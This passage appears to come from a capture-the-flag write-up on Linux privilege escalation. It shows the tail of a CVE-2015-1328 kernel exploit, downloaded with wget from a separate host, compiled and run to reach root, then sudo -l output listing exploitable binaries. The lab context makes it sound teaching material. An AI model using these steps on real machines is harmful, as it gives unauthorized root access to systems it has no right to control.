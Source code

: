```c
    }
    return _real_getuid();
}
```

This is where some magic happens, we change the `userid` and `groupid` to `0`, that's the id and group of the `root` user!

Alright, now let's take this exploit for a spin...

So we first have to get the code to the machine. We have a few options here:

1. We can create a local file in the `/tmp/` directory and paste the code to that file
2. We can transfer it  
       
    I decided to go with the later, I put the code in a CVE-2015-1328.c file and setup a local python http server: `python3 -m http.sever 8888`. Now from out target machine I did a `wget http://1.2.3.4:8888/CVE-2015-1328.c` and boom we got it now in the target machine.  
       
    Now we have to compile the code: `gcc CVE-2015-1328.c -o pwned`  
    Let check out what user we are before we run the exploit:

```
$ id
uid=1001(karen)  gid=1001(karen)  groups=1001(karen)
```

Ok, now let's run this!

```
$ ./pwned
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so/preload created
creating shared library
# id
uid=0(root)  gid=0(root)  groups=0(root),1001(karen)
```

Money! Now let's find the flag. You could use this to find it `find . -name "flag1.txt"`, but I did some snooping around prior to and looked in the home directory where we have a user matt who happens to have this flag1.txt :)

# Privilege Escalation: Sudo

In this task we are trying to leverage programs that may be running as sudo or programs that we are given permissions to run as sudo. We can check which ones those are by running `sudo -l`:

```
$ sudo -l                           
Matching Defaults entries for karen on ip-10-10-148-237:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karen may run the following commands on ip-10-10-148-237:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano

```
